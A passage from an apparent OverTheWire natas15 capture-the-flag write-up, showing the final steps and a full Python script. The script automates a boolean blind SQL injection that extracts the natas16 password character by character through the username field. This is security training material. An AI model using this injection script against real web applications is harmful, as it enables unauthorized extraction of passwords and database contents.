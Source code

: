 #### Step 5: Web Server Request

```python
import requests

response = requests.post('http://natas15.natas.labs.overthewire.org/index.php', auth=("natas15", password), data={ "username": sqli })
```

#### Step 6: Response Handling

```python
if 'This user exists' in response.text:
    correct_guesses += char
    break
elif 'This user doesn\'t exist' not in response.text:
    print('Error:' + response.text)
```

And that's it. Bringing it all together:

```python
import getpass
import requests

# Step 1: Credentials
password = getpass.getpass(prompt='Enter password for natas15: ')

# Step 2: Loop over the password length
correct_guesses = ""
for i in range(0, 32):
    # Step 3: Loop over the password characters
    for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
        # Step 4: The SQL Injection String
        password_guess = correct_guesses + char
        print(password_guess)
        sqli = f'natas16" AND BINARY SUBSTRING(password, 1, { len(password_guess) }) = "{ password_guess }'

        # Step 5: Web Server Request
        response = requests.post('http://natas15.natas.labs.overthewire.org/index.php', auth=("natas15", password), data={ "username": sqli })

        # Step 6: Response Handling
        if 'This user exists' in response.text:
            correct_guesses += char
            break
        elif 'This user doesn\'t exist' not in response.text:
            print('Error:' + response.text)
```

Running this command, and waiting for many HTTP requests, produces the
`natas16` password.

## Key Takeaways
